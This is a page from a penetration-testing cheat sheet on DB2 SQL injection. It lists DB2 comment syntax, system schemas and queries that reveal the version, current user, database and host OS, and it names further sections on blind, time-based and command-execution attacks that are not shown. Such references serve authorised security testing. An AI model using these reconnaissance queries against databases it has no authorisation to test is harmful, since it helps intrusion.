

repository: pchabermann/PayloadsAllTheThings · page: SQL Injection/DB2 Injection/index.html · generator: mkdocs

# DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments.

## Summary

* [DB2 Comments](#db2-comments)
* [DB2 Default Databases](#db2-default-databases)
* [DB2 Enumeration](#db2-enumeration)
* [DB2 Methodology](#db2-methodology)
* [DB2 Error Based](#db2-error-based)
* [DB2 Blind Based](#db2-blind-based)
* [DB2 Time Based](#db2-time-based)
* [DB2 Command Execution](#db2-command-execution)
* [DB2 WAF Bypass](#db2-waf-bypass)
* [DB2 Accounts and Privileges](#db2-accounts-and-privileges)
* [References](#references)

## DB2 Comments

| Type | Description |
| ---- | ----------- |
| `--` | SQL comment |

## DB2 Default Databases

| Name      | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| SYSIBM    | Core system catalog tables storing metadata for database objects.                                 |
| SYSCAT    | User-friendly views for accessing metadata in the SYSIBM tables.                                  |
| SYSSTAT   | Statistics tables used by the DB2 optimizer for query optimization.                               |
| SYSPUBLIC | Metadata about objects available to all users (granted to PUBLIC).                                |
| SYSIBMADM | Administrative views for monitoring and managing the database system.                             |
| SYSTOOLs  | Tools, utilities, and auxiliary objects provided for database administration and troubleshooting. |

## DB2 Enumeration

| Description      | SQL Query                                                                                            |
| ---------------- | ---------------------------------------------------------------------------------------------------- |
| DBMS version     | `select versionnumber, version_timestamp from sysibm.sysversions;`                                   |
| DBMS version     | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo`                       |
| DBMS version     | `select getvariable('sysibm.version') from sysibm.sysdummy1`                                         |
| DBMS version     | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| DBMS version     | `select service_level,bld_level from sysibmadm.env_inst_info`                                        |
| Current user     | `select user from sysibm.sysdummy1`                                                                  |
| Current user     | `select session_user from sysibm.sysdummy1`                                                          |
| Current user     | `select system_user from sysibm.sysdummy1`                                                           |
| Current database | `select current server from sysibm.sysdummy1`                                                        |
| OS info          | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info`                         |
